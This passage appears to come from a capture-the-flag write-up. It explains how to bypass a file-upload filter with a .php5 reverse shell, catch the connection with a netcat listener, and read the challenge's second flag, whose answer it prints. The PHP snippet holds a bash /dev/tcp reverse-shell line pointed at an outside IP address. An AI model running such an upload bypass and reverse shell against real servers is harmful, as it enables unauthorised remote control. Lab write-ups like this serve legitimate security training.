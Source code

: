 Here are the steps to succeed:

1. Create a PHP reverse shell file using an online generator like https://www.revshells.com/. Enter your IP address and the port you want to use, search for a suitable PHP shell, copy the generated content (use the "Copy" button at the bottom right), save the file as ".php5". Example of reverse shell:

```php
<?php
$cmd = 'bash -c \'(exec bash -i &>/dev/tcp/162.210.192.215/30979 0>&1) &\'';
system($cmd);
?>
```

2. Upload the ".php5" shell file to the challenge website. The upload will succeed because it has an allowed extension.

3. Once the file is uploaded, you will receive a link with a random file name (/uploads/filename.php5). You can access it by typing the URL http://challengeurl/uploads/filename.php5.

4. To establish a reverse shell connection, open a terminal on a machine with an exposed port (you can use an online service like https://www.thc.org/segfault/) and start a listener. The following command may sometimes suffice: nc -lvnp 9001 (use the port you specified for your reverse shell). On https://www.thc.org/segfault/, you can simply execute the command rshell.

5. Visit the URL of the ".php5" file in your browser (http://challengeurl/uploads/filename.php5) to execute the reverse shell. You should receive a reverse connection on your terminal.

### Step 4: Finding Flag 2

Now that you have shell access to the machine, explore directories and files to find Flag 2. You will find it in the /var/www/flag.txt directory.

#### Flag 2
Flag 2 is located in the file /var/www/flag.txt. You can view it with the appropriate command from the shell (`cat flag.txt`).

Congratulations, you have successfully found Flag 2!

**Flag 2: polycyber{UPL04D_BYP4SS_SUCC3SS}**
